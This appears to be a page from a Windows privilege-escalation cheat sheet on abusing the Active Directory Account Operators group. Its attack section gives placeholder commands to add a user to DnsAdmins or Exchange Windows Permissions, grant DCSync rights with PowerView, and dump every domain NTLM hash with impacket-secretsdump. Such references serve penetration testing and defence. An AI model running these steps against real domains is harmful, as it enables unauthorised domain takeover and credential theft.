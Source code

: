 # Account Operators

Members of the **Account Operators** group have privileges to manage user account creation. They can create and modify most types of accounts, including user accounts, local groups, and global groups. Additionally, this group has the ability to log on locally to the domain controller. [Learn More](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators)

### Attack

Although a user cannot be added directly as an administrator, there are several alternative privilege escalation techniques. One example is adding a user to the **DNSAdmins** group or granting them **Exchange Windows Permissions**, utilizing the respective escalation techniques.

For DNSAdmins:

```batch
:: Create a new user
net user [user] [password] /add

:: Add user to DNSAdmins
net localgroup "DnsAdmins" [user] /add
```

For Exchange Windows Permissions:

```batch
:: Add user to Exchange Windows Permissions
net group "Exchange Windows Permissions" [user] /add

:: Add DCSync permissions using PowerShell
Import-module .\PowerView.ps1
Add-DomainObjectACL -TargetIdentity 'DC=com,DC=domain' -PrincipalIdentity [user] -Rights DCSync

:: Now extract all NTLM hashes from AD
impacket-secretsdump [domain]/[user]:[password]@[IP]
```

After this, proceed with exploiting either the **DNSAdmins** or **Exchange Windows Permissions** group (you may need to log off and log back in to see the changes).

[↪ DNSAdmins](https://daniel10barredo.github.io/PrivEscAssist_Windows/#groups/DNSAdmins) [↪ Exchange Windows Permissions](https://daniel10barredo.github.io/PrivEscAssist_Windows/#groups/ExchangeWindowsPermissions)
